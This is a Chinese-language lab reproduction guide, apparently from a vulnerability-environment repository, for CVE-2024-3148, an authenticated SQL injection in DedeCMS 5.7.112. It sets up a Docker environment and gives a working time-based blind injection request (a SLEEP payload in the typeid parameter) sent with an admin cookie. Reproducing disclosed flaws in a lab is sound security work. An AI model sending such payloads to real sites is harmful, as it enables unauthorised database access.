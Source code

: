 # CVE-2024-3148 DedeCms makehtml_archives_action sql注入漏洞

DedeCMS（也称为织梦CMS）是一款基于PHP+MySQL的开源内容管理系统。

在 DedeCMS 5.7.112 中发现一个被归类为严重的漏洞。此漏洞会影响某些未知文件dede/makehtml_archives_action.php的处理。操作导致 sql 注入。攻击可能是远程发起的。该漏洞已向公众披露并可能被使用。

官网地址https://www.dedecms.com/



## 漏洞环境

执行如下命令启动一个DedeCms-v5.7.112-web服务器：

```
docker compose up 
```



服务启动后，可访问`http://your-ip:80/`跳转到DedeCms安装向导页面

![image-20240407141035299](./1.png)

点击继续安装

![image-20240407141203597](./2.png)

安装完成

![image-20240407141314706](./3.png)

## 漏洞复现

使用账号密码登录网站后台,获取后台cookie

![image-20240407141455435](./4.png)

发送payload

```
GET /dede/makehtml_archives_action.php?typeid=1+AND+(SELECT+1+FROM+(SELECT(SLEEP(3)))a) HTTP/1.1
Host: 10.66.64.106
Cookie: menuitems=[yourcookie]
Connection: close


```

![image-20240407141717969](./5.png)

![image-20240407141814960](./6.png)